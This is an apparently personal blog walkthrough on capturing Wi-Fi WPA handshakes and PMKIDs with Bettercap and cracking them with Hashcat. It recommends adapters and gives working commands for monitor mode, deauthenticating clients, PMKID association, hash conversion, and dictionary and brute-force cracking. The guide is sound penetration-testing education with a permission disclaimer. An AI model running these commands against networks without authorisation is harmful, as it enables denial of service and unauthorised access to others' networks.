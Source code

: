 ```yaml
---
layout: post
title: "Wireless Pentesting with Bettercap"
categories: guide
author:
- th4ntis
---
```


This will be a walkthrough used to obtain wireless handshakes and [PMKID](https://hashcat.net/forum/thread-7717.html) using [Bettercap](../../tools/wireless/bettercap.md) and crack it using [Hashcat](https://github.com/hashcat/hashcat)

***

# **This is for educational purposes and only to be performed on networks you have permission to do so.**

***

My notes on Wireless in general can be found [here](https://cybersec.th4ntis.com/networking/wireless).

My notes on Hashcat can be found [here](https://cybersec.th4ntis.com/tools/hash-cracking/hashcat).

This will require having a WiFi Adapter that supports monitor mode, also known as packet injection.

I myself have and recommend these adapters:

* [Alfa AWUS036ACM](https://www.amazon.com/Alfa-AWUS036ACM-Long-Range-Dual-Band-Wireless/dp/B073X6RL9D) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACHM](https://www.amazon.com/gp/product/B08SJBV1N3/ref=ox\_sc\_act\_title\_1?smid=A20G3A026MV70R\&psc=1) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACH](https://www.amazon.com/dp/B08SJC78FH?ref\_=cm\_sw\_r\_cp\_ud\_dp\_PSZZG6J9X0XH40GXB685) <-- Capable of 2.4GHz and 5GHz (This more than likely \*will\* require driver installation)
* [Panda Wireless PAU09 N600](https://www.amazon.com/Panda-Wireless-PAU09-Adapter-Antennas/dp/B01LY35HGO) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036NEH](https://www.amazon.com/AWUS036NEH-Range-WIRELESS-802-11b-USBAdapter/dp/B0035OCVO6)
* [Alfa AWUS036NH](https://www.amazon.com/Alfa-AWUS036NH-802-11g-Wireless-Long-Range/dp/B003YIFHJY)
* [Panda Wireless PAU05](https://www.amazon.com/Panda-300Mbps-Wireless-USB-Adapter/dp/B00EQT0YK2)
* [TP-Link TL-WN722N](https://www.amazon.com/TP-Link-TL-WN722N-Wireless-network-Adapter/dp/B002SZEOLG)
* [Ralink USB WiFi RT5370](https://www.amazon.com/Ralink-RT5370-Raspberry-Adapter-Function/dp/B019XUDHFC)

# Bettercap

## Handshake

We need find our interface and put it into monitor mode.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(236).png)

`sudo airmon-ng start (interface name)`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(344).png)

Now we start bettercap selecting our interface

`bettercap -iface (interface)`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(663).png)

We begin scanning for networks

`wifi.recon on`

We can also show the WiFi Manufacturer of the AP

`set wifi.show.manufacturer true`

`wifi.show`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(269).png)

`set wifi.recon.channel (Channel)`

`set net.sniff.verbose true`

`set net.sniff.output (SSID).pcap`

`set net.sniff on`

`events.stream on`

At this point we can again, simply wait for a device to connect to the network to obtain the handshake, or we may deauthenticate the network.

`wifi.deauth (BSSID)`

Once we obtain the handshake, we will see the notification in our event stream

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(645).png)

## PMKID

The PMKID method is much simpler method. Just like before, we find our interface, enable monitor mode, start bettercap with that interface.

We begin scanning for networks

`wifi.recon on`

We can also show the WiFi Manufacturer of the AP

`set wifi.show.manufacturer true`

`wifi.show`

To start the PMKID attack we simply run

`wifi.assoc (BSSID)`

Once we have successfully received the RSN frame containing PMKID and it has been saved in a pcap format

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(565).png)

***

# Hashcracking with Hashcat

We have our PMKID in the .pcap format, we can use hashcat to crack it. First we must use the `hcxpcapng` tool from [HCXtools](https://github.com/ZerBea/hcxtools).

hcxpcapng -o CrackMe (.pcapng file)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(721).png)

## Dictionary

If we want to use a dictionary attack, like using `rockyou.txt` for example

`hashcat -a 0 -w 3 -m 22000 (hash file) (wordlist)`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(326).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(524).png)

Depending on your hardware, the dictionary you chose, and the password, this may take some time. You can press S for a status to see the time time estimated on finishing, as well as the updated `Recovered.Total` to see the recovered keys.

We can run the same command again with --show appended to the end to see our cracked passwords.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(255).png)

## Brute Force

If we wanted to run a brute force attack rather than a dictionary attack, it's a similar command

`hashcat -a 3 -w 3 -m 22000 (hash file) '?l?l?l?l?l?l?l'`

Replace the `?l` with whatever we see fit.
```
* ?l = a-z
* ?u = A-Z
* ?d = 0-9
* ?h = 0-9a-f
* ?H = 0-9A-F
* ?s = !"#$%&'()\*+,-./:;<=>?@\[]^\_\`{|}\~
* ?a = ?l?u?d?s
* ?b = 0x00 - 0xff
```
This will cover the basics of the hash cracking with hashcat but it can get SO much more advanced with hashcat. Especially when using rules like [OneRuleToRuleThemAllStill](https://github.com/stealthsploit/OneRuleToRuleThemStill) and modern wordlists like [rockyou2021.txt](https://chris.partridge.tech/2021/rockyou2021.txt-a-short-summary/).
